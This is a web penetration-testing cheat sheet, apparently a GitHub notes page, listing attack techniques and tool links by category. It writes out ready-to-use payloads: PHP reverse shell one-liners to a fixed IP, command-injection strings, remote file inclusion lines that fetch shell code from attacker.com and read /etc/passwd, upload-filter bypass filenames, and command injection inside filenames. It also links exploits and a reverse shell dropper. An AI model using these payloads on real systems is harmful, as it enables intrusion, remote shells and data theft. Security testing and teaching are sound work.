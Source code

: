 # WEB

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


XSRF (Cross-site Request Forgery)
---------------------------------

* [CSurfer](https://github.com/asaafan/CSurfer/) - CSRF guard hiding extension for Burp
* [CSRF-Request-Builder](https://github.com/TheRook/CSRF-Request-Builder/) - tool for testing CSRF against web services


Command Injection
-----------------

* Try to use pipe, ampersands, double ampersands, colon: `1 | uname -a & users & id`


File Inclusion
==============

Local File Inclusion
--------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  

Remote File Inclusion
---------------------

Example: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`  
* [PHP File Inclusion Overview](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/)  
* [Uniscan](https://sourceforge.net/projects/uniscan/) - simple RFI, LFI and RCE vulnerability scanner  
* [rfishell](https://github.com/superkojiman/rfishell) - provide a shell-like interface when exploiting RFI vulns  

Exploitation examples:  
```
http://victim.com/i_dont_exist.php?code=<?php file_put_contents("shell.php", file_get_contents("http://attacker.com/shell.txt")) ?>
http://10.0.17.147/wordpress/wp-content/plugins/mygallery/myfunctions/mygallerybrowser.php?myPath=http://10.0.17.145/test/test.txt? //test.txt contains <?php print system("cat /etc/passwd"); ?>
```
When appending questionmark to the end of the payload, the remainder of the local PHP code is treated as a parameter to the RFI included code. Also try multiple questionmarks, nullbytes `%00`.  
Metasploit Web Delivery could also be useful in order to get an interactive shell.


File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path

* Uploading `.htaccess` and remapping filetypes
* Shellcode in filename:
```
.png; ls -la;
; whoami; .png
```

Open Redirect
=============

If parameter takes URL but redirects incorrectly, try adding questionmark in the payload, e..g:   
`http://vulnerable/function?id=1&retURL=http://evil.com/?`

Language-Specific
=================

ASP.NET
-------

Determine if stack traces are enabled: `host.com/default|.aspx`  
Invalidate .NET Monitoring with a virtual directory identifier: `host.com/default~.aspx`  
Detailed application level trace information (rarely enabled): `host.com/trace.axd`   
Most important file: web.config (located inside the document root).  
`__VIEWSTATE` variable contains application state (applicaton variables and control attributes). Viewstate contents can be decoded using a [ViewState Decoder](http://www.pluralsight.com/tools.aspx).  
[Drop and Pop](http://ha.cked.net/dropandpop.zip) - .NET reverse shell dropper  


PHP
---

* [IonCube V8.2 + PHP Auto - Fixer Decoder](http://phpdecode.blogspot.co.at/)


XXE (XML External Entity Injection)
-----------------------------------

* [Preventing XXE in PHP](https://websec.io/2012/08/27/Preventing-XEE-in-PHP.html)

SSL
---

* [SSL Checklist for Pentesters - the Manual Cheatsheet](http://www.exploresecurity.com/wp-content/uploads/custom/SSL_manual_cheatsheet.html)

SSI (Server-Side Include)
-------------------------

`<!--#echo var="DATE_LOCAL" -->`

IP Spoofing
-----------
```
Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  
```
Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser-Related
---------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"  
* Pentesting plugins: [Firebug](http://getfirebug.com/), [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/), [FoxyProxy](https://getfoxyproxy.org/), [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), [FileStorage Plus!](https://addons.mozilla.org/de/firefox/addon/firestorage-plus/), [NoScript Security Suite](https://addons.mozilla.org/en-US/firefox/addon/noscript/), [HackBar](https://addons.mozilla.org/en-US/firefox/addon/hackbar/)  


Information Leakage
-------------------
```
GET / HTTP/1.0
CONNECTION:CLOSE


```
Send this request using Burp Repeater. Might leak internal IPs, hostnames etc. Note the two newlines after CONNECTION:CLOSE.


CMS-Specific
============

Drupal
------

* [Attacking Drupal](http://www.slideshare.net/heinzarelli/attacking-drupal)
* [DPScan](http://www.ehacking.net/2012/02/dpscan-drupal-security-scanner-tutorial.html)
* [Drupal by Mad Irish](http://www.madirish.net/tag/drupal) - good resource on Drupal vulns
* Find out which version: `domain.com/changelog.txt`

Liferay
-------

* [LiferayScan](https://github.com/bcoles/LiferayScan) - simple remote scanner for Liferay Portal
* [Hacking Liferay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html) - version 6.06
* [Liferay Portal Security Research](http://www.procheckup.com/media/194945/liferay.pdf) - version 6.05
* [Liferay Portlet Shell](https://www.insinuator.net/tag/liferay/)
* [Liferay 6.1 can be compromised in its default configuration](http://seclists.org/bugtraq/2012/Apr/151)
* [Liferay Portal 7.0.x <= 7.0.2 - Pre-Auth RCE Exploit](http://0day.today/exploit/23043)
* [Hacking LifeRay CMS](http://realpentesting.blogspot.co.at/2013/01/hacking-liferay-cms.html)
* [Hacking Liferay](http://blog.etapix.com/2013/02/hacking-liferay-securing-against-online.html)
